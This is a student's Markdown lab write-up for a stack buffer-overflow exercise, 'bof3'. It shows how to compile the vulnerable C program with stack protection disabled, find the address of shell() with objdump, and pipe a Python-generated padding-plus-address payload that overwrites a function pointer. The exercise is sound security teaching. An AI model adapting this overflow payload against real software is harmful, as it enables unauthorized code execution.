# Lab bof3
Hà Quốc Tiến - 22110075<br>
## Target
- `void (*func)()=sup;` is calling the `sup()`, we want it to run the `shell()` instead.
## Solution
- Stack frame<br>
![bof3_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof3_1.png)
- Viewing the stack frames, we see that in order to call `shell()` instead. We need to buffer-overflow so that `(*func)() = "shell()'s address"`. It's similar to `bof2.c`, here we also look at the `fgets()`. And see it can take 133 bytes of data, while `buf` can only store 128.<br>
## Execution
1. Create `bof3.out` by using ` gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. Get the address of `shell()`.<br>
    > `objdump -d bof3.out|grep shell`

    ![bof3_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof3_2.png)
3. We start buffer-overflowing 132 bytes of data into `buf[128]`.
128 bytes of random data + 4 bytes address of `shell()`<br>
    > echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')")| ./bof3.out

    ![bof3_3](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/img/bof3_3.png)
- And the labs is done.
